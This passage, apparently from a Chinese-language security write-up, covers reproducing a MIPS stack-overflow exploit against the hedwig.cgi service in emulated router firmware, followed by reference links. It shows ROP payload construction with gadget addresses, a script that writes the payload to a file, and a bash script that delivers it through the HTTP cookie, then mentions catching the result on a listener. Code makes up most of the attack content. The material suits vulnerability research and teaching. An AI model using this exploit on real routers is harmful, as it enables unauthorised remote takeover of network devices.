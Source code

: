 ```js
padding += 'A' \* 4            \*# s3\*  
padding += 'A' \* 4            \*# s4\*  
padding += p32(base\_addr+gadget2)     \*# s5\*  
padding += 'A' \* 4            \*# s6\*  
padding += 'A' \* 4            \*# s7\*  
padding += 'A' \* 4            \*# fp\*  
padding += p32(base\_addr + gadget1)    \*# ra\*  
padding += 'B' \* 0x10  
padding += cmd  
f = open("context",'wb')  
f.write(padding)  
f.close()
```

将上述exp运行后得到context，上传之后防止squash-root主目录，运行exp.sh脚本运行，启动hedwig.cgi服务，脚本如下：

```js
!/bin/bash
export CONTENT_TYPE="application/x-www-form-urlencoded"
#export HTTP_COOKIE=$(python -c "print 'uid=' + 'A'*1009 + 'BBBB'")
export HTTP_COOKIE="uid=`cat context`"
export CONTENT_LENGTH=$(echo -n "$HTTP_COOKIE" | wc -c)
export REQUEST_METHOD="POST"
export REQUEST_URI="/hedwig.cgi"
#echo "uid=4321"|./gdbserver.mipsle 192.168.100.254:8888 /htdocs/web/hedwig.cgi
echo "uid=4321"|/htdocs/web/hedwig.cgi
```

攻击端监听，得到如下结果：

![image-20220830155649043.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d10d961e1d86056726423e9ea874397734f3a1cb.png)

EXP运行时动态调试栈空间：

![image-20220830164254983.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-0fd9e07995abbed26a9353ada16566fee9b7da39.png)

0x05 参考连接
=========

几种固件仿真方式：<https://cloud.tencent.com/developer/article/1883281>

Ghidra下载安装以及快捷键使用：<https://www.cnblogs.com/iBinary/p/13852204.html>

mips下栈溢出相关知识点：<https://xz.aliyun.com/t/6808>

固件模拟与复现：<http://www.ctfiot.com/20823.html>、<http://www.ctfiot.com/41773.html>

mips架构汇编指令学习：<https://blog.csdn.net/peachhhh/article/details/114376694>

gdb-multiarch安装指导链接：<https://www.cnblogs.com/LY613313/p/16180128.html>

mips流水线与指令集并行处理：<https://www.bilibili.com/read/cv14585357>、<https://www.bilibili.com/read/cv14595039/>